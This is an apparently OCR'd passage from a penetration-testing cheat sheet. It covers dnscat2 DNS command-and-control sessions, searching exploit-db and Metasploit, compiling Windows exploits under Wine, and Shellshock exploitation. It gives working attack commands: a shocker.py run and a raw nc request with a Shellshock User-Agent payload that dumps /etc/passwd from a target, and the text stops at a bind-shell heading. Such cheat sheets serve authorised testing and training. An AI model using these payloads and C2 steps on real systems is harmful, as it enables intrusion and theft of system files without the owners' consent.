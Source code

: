 ruby ./dnscat2.rbdnscat2> New session established: 1422dnscat2> session -i 1422
Target Machine:

https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

dnscat --host <dnscat server_ip>

## **BOF / Exploit**

## **Exploit Research**

Find exploits for enumerated hosts / services.

| Command | Description |
| --- | --- |
| searchsploit windows 2003 \| grep -i local | Search exploit-db for exploit, in this example windows 2003 + local esc |
| site:exploit-db.com exploit kernel <= 3 | Use google to search exploit-db.com for exploits |
| grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/* | Search metasploit modules using grep - msf search sucks a bit |

### Searching for Exploits

Install local copy of exploit-db:

searchsploit –u searchsploit apache 2.2 searchsploit "Linux Kernel" searchsploit linux 2.6 | grep -i ubuntu | grep local

### Compiling Windows Exploits on Kali

  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download wine mingw-get-setup.exe select mingw32-base cd /root/.wine/drive_c/windows wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip cd /root/.wine/drive_c/MinGW/bin wine gcc -o ability.exe /tmp/exploit.c -lwsock32 wine ability.exe

### Cross Compiling Exploits

gcc -m32 -o output32 hello.c (32 bit)gcc -m64 -o output hello.c (64 bit)

### Exploiting Common Vulnerabilities

#### **Exploiting Shellshock**

A tool to find and exploit servers vulnerable to Shellshock:

git clone https://github.com/nccgroup/shocker

./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

##### **cat file (view file contents)**

echo -e "HEAD /cgi-bin/status HTTP/1.1\nUser-Agent: () { :;}; echo \$(</etc/passwd)\nHost: vulnerable\nConnection: close\n\n" | nc TARGET 80

##### **Shell Shock run bind shell**
